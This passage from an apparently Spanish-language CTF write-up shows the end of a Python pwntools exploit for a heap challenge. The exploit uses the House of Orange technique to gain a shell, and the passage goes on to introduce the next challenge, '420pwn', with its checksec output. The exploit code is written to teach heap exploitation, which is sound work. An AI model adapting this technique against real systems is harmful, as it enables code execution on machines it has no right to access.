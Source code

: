 ```python
heap = u64(p.recv(8))

alloc()
edit(5, p64(0)*5 + "\x31")

alloc()
edit(6, p64(libc.sym.system)*10)

alloc()
edit(7, p64(0)*5 + "\x31") # fake next chunk size to get unsortedbin

alloc()
edit(8, p64(0) + p64(heap + 0x10)) # vtable pointer to first chunk

edit(3, "a"*0x50 + "/bin/sh\x00" + "\x91") # chunk size overwrite to get unsorted
free(5) # get unosrted
edit(2, p64(leak) + p64(libc.symbols['_IO_list_all'] - 0x10) + p64(2)+p64(3) + p64(0)*7 + "\x00") # set HoO struct

edit(7, p64(0)*11 + "\x00") # null out chunk 8's size right before vtable

edit(3, "a"*0x50 + "/bin/sh\x00" + "\xb1")
alloc()

log.info(hex(heap))
log.info(hex(leak))
log.info(hex(libc.address))
p.interactive()
```

La efectividad de House of Orange depende de un bit que depende del ASLR, por lo que el exploit funciona un 50% de las veces.
Gracias a dplastico por este entretenido desafio :D


# 420

420pwn es un reto de heap con libc 2.30 compilada sin tcache. Nos entregan como material el [binario](/content/q42020/420/test), el [ld](/content/q42020/420/ld-2.30.so) y la [libc](/content/q42020/420/libc.so.6). El binario tiene todas las protecciones habilitadas:

```
checksec test
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  '.'
```

No explicare mucho de las basicas de explotacion de heap en este writeup. Si no te sientes comodo aun con muchos de los conceptos que uso en el writeup, o si quieres aprender mas de explotacion de heap, te recomiendo [este](https://github.com/shellphish/how2heap/) repo.
